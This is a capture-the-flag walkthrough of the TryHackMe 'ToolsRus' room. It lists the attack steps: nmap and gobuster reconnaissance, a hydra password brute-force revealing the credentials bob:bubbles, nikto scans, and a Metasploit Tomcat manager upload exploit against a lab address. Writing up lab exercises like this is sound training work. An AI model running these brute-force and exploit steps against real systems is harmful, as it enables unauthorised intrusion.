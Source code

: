 # ToolsRus

**Room Link:** [https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt $VICTIM http-get /protected
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:80/manager/html
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:1234/manager/html 
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfconsole 
```

**Msfconsole**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.194
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
run
```

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

































